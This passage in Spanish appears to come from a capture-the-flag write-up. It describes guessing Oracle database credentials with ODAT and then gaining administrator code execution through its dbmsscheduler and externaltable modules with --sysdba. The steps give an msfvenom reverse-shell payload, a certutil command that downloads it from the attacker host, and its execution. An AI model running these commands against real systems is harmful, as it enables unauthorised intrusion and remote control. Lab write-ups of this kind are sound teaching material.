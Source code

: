 ![Obtención de credenciales](images/exploit_1.png)

Posteriormente se identificó que el módulo encargado de hacer este proceso es `passwordguesser` el cual simplemente sustituiría a `all` del comando.

### RCE

#### Pasos previos | Preparación

Posteriormente, al revisar los módulos disponibles se identificó que tanto el módulo `dbmsscheduler` como el módulo `externaltable` ofrecen capacidad de ejecutar comandos. Que al intentar usarlos no se permitió su ejecución debido a la falta de privilegios, sin embargo, se encontró que mediante la bandera `--sysdba` existe la posibilidad de "escalar" estos privilegios o impersonar un rol superior al que se tenía.

#### Ejecución

Obteniendo así, una vez ejecutada la reverse shell, acceso directamente como administrador.

1. Creando un payload con `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.16 LPORT=1234 -f exe > pwn.exe`.
2. Descargándolo con `./odat.py dbmsscheduler -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --exec "certutil.exe -f -urlcache -split http://10.10.14.16/pwn.exe c:\windows\temp\pwn.exe" --sysdba`.
3. Y ejecutándolo con `./odat.py externaltable -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --exec "c:\windows\temp" "pwn.exe" --sysdba`.
